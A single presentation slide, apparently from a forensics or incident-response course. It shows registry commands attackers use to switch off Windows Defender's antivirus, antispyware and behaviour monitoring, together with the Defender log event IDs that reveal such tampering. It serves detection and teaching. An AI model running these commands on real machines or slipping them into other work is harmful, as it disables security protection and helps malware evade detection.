

# Anti-forensic behavior — Bypassing Windows Defender
PowerShell one-liners to disable Windows Defender via Registry
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender” /f​​
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f​
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f​
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f​
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f​
Microsoft-Windows-Windows Defender%4Operation.evtx1
EID 5001 — Microsoft Defender Antivirus real-time protection scanning for malware and other potentially unwanted software was disabled
EID 5010 — Microsoft Defender Antivirus scanning for malware and other potentially unwanted software is disabled
EID 5012 — Microsoft Defender Antivirus scanning for viruses is disabled
 1 https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/troubleshoot-microsoft-defender-antivirus?view=o365-worldwide​